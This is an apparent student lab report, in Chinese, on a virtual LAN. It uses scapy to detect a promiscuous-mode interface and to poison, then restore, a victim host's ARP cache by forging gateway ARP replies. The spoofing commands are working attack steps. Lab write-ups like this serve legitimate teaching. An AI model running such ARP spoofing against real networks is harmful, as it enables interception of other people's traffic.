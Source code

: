 # 实验四——实验报告

### 网络拓扑

- 攻击者主机
  - 08:00:27:da:3e:e4 / eth0
  - 172.16.111.123
- 受害者主机
  - 08:00:27:ad:81:3c / eth0
  - 172.16.111.100
- 网关
  - 08:00:27:bb:14:c1 / enp0s9
  - 172.16.111.1

### 安装scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![安装python3](img/安装python3.PNG)

![安装python3（1）](img/安装python3（1）.PNG)

### 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![检查网卡的混杂模式](img/检查网卡的混杂模式.PNG)

```bash
# 在攻击者主机上开启 scapy
scapy
```

![在攻击者主机上开启scapy](img/在攻击者主机上开启scapy.PNG)

```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.100")
```

![pkt](img/pkt.PNG)

```bash 
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![开启混杂模式](img/开启混杂模式.PNG)

![promisc](img/promisc.PNG)

```bash 
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.100")
```

![pkt两次结果差异](img/pkt两次结果差异.PNG)

``` bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```

### 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![构造ARP请求](img/构造ARP请求.PNG)

```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
```

![发送广播请求](img/发送广播请求.PNG)

```bash
# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![查看mac地址](img/查看mac地址.PNG)

```bash
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.100
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.100", hwdst="08:00:27:da:3e:e4")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![伪造网关ARP响应包并发送至受害者主机](img/伪造网关ARP响应包并发送至受害者主机.PNG)

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
```

![受害者ARP缓存网关的mac变为攻击者](img/受害者ARP缓存网关的mac变为攻击者.PNG)

回到攻击者主机上的 scapy 交互式终端继续执行命令

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:bb:14:c1", pdst="172.16.111.100",
hwdst="08:00:27:ad:81:3c")
sendp(restorepkt1, count=100, inter=0.2)
```

![伪装网关给受害者发送ARP响应](img/伪装网关给受害者发送ARP响应.PNG)

此时在受害者主机上准备“刷新”网关 ARP 记录

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![受害者主机恢复正常的网关ARP记录](img/受害者主机恢复正常的网关ARP记录.PNG)

### 报错及解决方式

1. 在 scapy 的交互式终端输入以下代码回车执行
   pkt = promiscping("172.16.111.100")

   ![报错1](img/报错1.PNG)

   解决办法：用sudo打开scapy

